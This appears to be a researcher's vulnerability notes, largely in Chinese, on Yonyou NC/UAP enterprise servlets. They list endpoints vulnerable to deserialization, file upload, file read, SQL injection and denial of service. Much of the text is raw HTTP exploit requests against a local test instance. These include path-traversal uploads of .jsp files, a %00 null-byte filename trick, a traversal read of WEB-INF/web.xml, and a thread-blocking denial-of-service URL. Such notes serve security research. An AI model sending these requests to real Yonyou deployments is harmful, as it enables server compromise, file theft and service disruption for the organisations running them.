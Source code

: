 反序列化

http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserQueryServiceServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserSynchronizationServlet
http://127.0.0.1:8081/service/~uapim/nc.bs.pub.im.UserAuthenticationServlet
http://127.0.0.1:8081/service/~baseapp/nc.document.pub.fileSystem.servlet.UploadServlet	需要分析 看有没其他漏洞
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserQryServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAUserAuthenticationServlet
http://127.0.0.1:8081/service/~webbd/nc.uap.bs.im.servlet.OAContactsFuzzySearchServlet
http://127.0.0.1:8081/service/~baseapp/nc.message.bs.NCMessageServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.MxServlet
http://127.0.0.1:8081/servlet/~ic/nc.bs.framework.mx.monitor.MonitorServlet
http://127.0.0.1:8081/service/~aert/uap.pub.ae.model.handle.ModelHandleServlet
http://127.0.0.1:8081/service/~cc/nc.bs.logging.config.LoggingConfigServlet
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DownloadServlet  需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~uapbs/uap.pub.dc.fileSystem.servlet.DownloadServlet			需要分析	看有没其他漏洞
http://127.0.0.1:8081/servlet/~baseapp/nc.document.pub.fileSystem.servlet.DeleteServlet
http://127.0.0.1:8081/servlet/~ic/uap.framework.rc.controller.ResourceManagerServlet

FileUploadServlet.class    	需要分析	看有没其他漏洞
FileReceiveServlet.class	需要分析	看有没其他漏洞
FileParserServlet.class		需要分析	看有没其他漏洞
FileManageServlet.class		需要分析	看有没其他漏洞

ContactsQueryServiceServlet.class  
ContactsFuzzySearchServlet.class
ConfigResourceServlet.class  逻辑漏洞-用户验证有缺陷
ActionHandlerServlet.class
任意文件上传
/com.yonyou.uap.mp.controller/UploadFileServlet.class
		POST /mp/login/../uploadControl/uploadFile HTTP/1.1
		Host: host
		Cache-Control: max-age=0
		Upgrade-Insecure-Requests: 1
		Accept-Encoding: gzip, deflate
		Accept-Language: zh-CN,zh;q=0.9
		Connection: close
		Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoDIsCqVMmF83ptmp
		Content-Length: 314
		
		------WebKitFormBoundaryoDIsCqVMmF83ptmp
		Content-Disposition: form-data; name="file"; filename="test.jsp"
		Content-Type: application/octet-stream
		
		test content
		------WebKitFormBoundaryoDIsCqVMmF83ptmp
		Content-Disposition: form-data; name="submit"
		
		上传
		------WebKitFormBoundaryoDIsCqVMmF83ptmp
		
		http://127.0.0.1:8081/mp/uploadFileDir/test.jsp
		

SaveXmlToFileServlet.class   但是只能是.xml文件		可利用windows特性%00， 如果windows版本过高不可能成功
	POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=2/../../../../../../../../../../../1 HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Type: multipart/form-data; boundary=024ff46f71634a1c9bf8ec5820c26fa9
	Accept-Encoding: gzip, deflate
	Content-Length: 177
	
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	

SaveImageServlet.class       但是只能是.png文件
	POST /portal/pt/servlet/saveImageServlet/doPost?pageId=login&filename=../1.jsp%00 HTTP/1.1
	Host: 127.0.0.1:8081
	Content-Type: application/octet-stream
	User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
	Content-Length: 3
	
	--024ff46f71634a1c9bf8ec5820c26fa9
	Content-Disposition: form-data; name="file"; filename=".ZOScC.jsp"
	
	2flYX0pZdqd9hXwFoszSIhjGiI9
	--024ff46f71634a1c9bf8ec5820c26fa9--
	
	漏洞利用的是windows特性%00， 如果windows版本过高不可能成功
	
webrt/nc.uap.lfw.core.servlet.LfwFileUploadServlet   文件不知道为啥没传成功，估计要两个磁盘


任意文件读取	
RawHistoryFileServlet.class  uapmq hadoop

OutputImageServlet.class  抽象代码， 将输入流作为文件内容返回给客户端
	GET /portal/pt/servlet/outputImageServlet/doPost?filename=/../../../../2000000&imagetype=png&pageId=login HTTP/1.1
	Host: 127.0.0.1:8081
	User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
	Connection: close
	Cookie: JSESSIONID=695A5D8B1C41BA3F8D74495FC1D37B7E.server
	Accept-Encoding: gzip, deflate
	Content-Length: 6
	
	123123
	
http://127.0.0.1:8081/servlet/~maportal/;/com.yonyou.maportal.bs.padplugin.controller.DownloadServlet?filename=../../WEB-INF/web.xml

FindWebResourceServlet.class  不能../ 
	/NCFindWeb?service=IPreAlertConfigService&filename=
	
sql注入
MdxQueryServlet.class

MARosterPhotoServlet.class  已有
综合漏洞
ManagerServlet.class  不是用友的 是tomcat的




尚待分析
ResourceManagerServlet.class 反序列化
	
	
拒绝服务
upass/nc.search.ui.servlet.ClusterStateServlet?opt=test
	阻塞线程60秒
